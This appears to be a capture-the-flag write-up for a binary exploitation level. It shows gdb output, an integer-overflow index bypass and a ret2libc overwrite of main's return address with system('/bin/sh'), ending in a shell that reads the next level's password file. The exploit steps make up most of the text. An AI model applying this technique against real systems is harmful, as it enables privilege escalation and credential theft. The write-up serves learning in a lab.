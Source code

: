 ```464(0x1d0) - 36(esp+0x24) + 16(0xfffffff0) + 12(calling convention) / 4(4-byte align) = 114``` \
   0x0804872c <+9>:     sub    $0x1d0,%esp # 16 x 16 x 16 + 16 x 13 = 4096 + 208 | 4304
   ...
   0x08048791 <+110>:   lea    0x24(%esp),%ebx # str[400]
   ...
```
Let's try to overwrite return address of main (raise segmentation fault by inserting wrong address):
```sh
Input command: store
 Number: 42
 Index: 114
 *** ERROR! ***
   This index is reserved for wil!
 *** ERROR! ***
 Failed to do store command
```
As we said before there is a condition for ```index % 3```, so we will bypass this by using int number overflow. \
To get that value we do some calculation:
```math
    round(4294967295 / 4) + 114 = 1073741938
```
Here we can put our address of function to inject the program's behavior.
For that we are going to use ```system``` call with ```/bin/sh``` parameter, so first we have to know their address.
```sh
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
```
So we will overwrite main's return address str[114] to ```system```'s, which is ```0xf7e6aed0```. \
And for the it's first parameter ```/bin/sh``` we will put at main's return function address +8 (str[116]). \
But why 8? It's because our EIP will be now set to address of ```system``` and ESPs at this moment will be:
```
EIP   : address to function                     | 0xf7e6aed0
ESP   : address to return after function call   | we don't care
ESP+4 : first parameter                         | 0xf7f897ec
```
Now we just need to change those addresses in decimal form, because our input is ```unsigned int```.
```sh
0xf7e6aed0 : 4159090384 # Number system() address
                        # Index 114
0xf7f897ec : 4160264172 # Number "/bin/sh" address
                        # Index 116
```
Now we store those values in the specified indexes.
```sh
Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/level08/.pass
(hidden)
```